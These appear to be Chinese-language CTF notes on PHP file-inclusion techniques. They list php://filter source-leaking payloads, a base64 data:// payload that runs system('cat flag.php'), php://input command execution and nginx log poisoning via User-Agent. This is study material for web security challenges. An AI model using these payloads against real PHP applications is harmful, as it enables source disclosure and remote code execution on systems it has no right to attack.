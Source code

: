 # 3.php伪协议/文件包含

## file函数

![img](D:\MarkDown\CTF\CTFNotes\Perfect317\WEB\images\20210110135324804-1721131032936.png)

1.是格式
2.是可选参数，有read和write，字面意思就是读和写
3.是过滤器。主要有四种：字符串过滤器，转换过滤器，压缩过滤器，加密过滤器。filter里可以用一或多个过滤器（中间用|隔开），这也为解题提供了多种方法，灵活运用过滤器是解题的关键。这里的过滤器是把文件flag.php里的代码转换（convert）为base64编码（encode）
4.是必选参数，后面写你要处理的文件名

php://filter/read=convert.base64-encode/resource=index.php

php://filter/convert.base64-encode/resource=index.php

在绕过一些WAF时有用



php://filter/resource=index.php



## data命令

text=data://text:text/plain,内容

```
？file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=

PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs ===> <?php system('cat flag.php');

```

file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流

## 对php进行过滤

使用data协议

或者使用?file=Php://input任意命令执行

post提交对应命令

![image-20240716195808334](D:\MarkDown\CTF\CTFNotes\Perfect317\WEB\images\image-20240716195808334.png)

![image-20240716195817975](D:\MarkDown\CTF\CTFNotes\Perfect317\WEB\images\image-20240716195817975.png)

## 4.查看日志方法

nginx服务器的日志通常为/var/log/nginx/access.log

或/var/log/nginx/error.log

使用file读取日志文件

```
?file=/var/log/nginx/access.log
```

查看日志文件记录的是什么

例记录User-Agent,则可以在User-Agent中写入php语句实现命令执行